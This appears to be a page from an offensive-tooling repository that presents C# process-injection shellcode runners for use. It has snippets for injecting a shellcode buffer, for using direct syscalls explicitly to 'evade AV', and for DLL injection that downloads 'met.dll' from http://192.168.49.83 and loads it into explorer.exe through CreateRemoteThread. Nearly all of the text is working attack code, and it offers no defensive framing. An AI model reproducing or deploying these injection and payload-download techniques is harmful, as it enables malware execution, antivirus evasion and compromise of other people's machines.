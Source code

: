 ### Process Injection Shellcode Runners

#### Basic Process Injection

Use to inject shellcode into another process using the process ID.

[Full Source](../src/csharp/Inject.cs)

```
byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc...
IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```

#### Process Injection via SysCalls

Use Nt* functions to evade AV

[Full Source](../src/csharp/DInvoke-Syscalls.cs)

```
// NtWriteVirtualMemory
stub = Generic.GetSyscallStub("NtWriteVirtualMemory");
NtWriteVirtualMemory ntWriteVirtualMemory = (NtWriteVirtualMemory) Marshal.GetDelegateForFunctionPointer(stub, typeof(NtWriteVirtualMemory));

var buffer = Marshal.AllocHGlobal(_shellcode.Length);
Marshal.Copy(_shellcode, 0, buffer, _shellcode.Length);
```

#### DLL Process Injection

Inject unmanaged DLL into remote process. *Note, writes DLL to disk.*

[Full Source](../src/csharp/DllInject.cs)

```
String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\met.dll";

WebClient wc = new WebClient();
wc.DownloadFile("http://192.168.49.83/met.dll", dllName);

Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
```
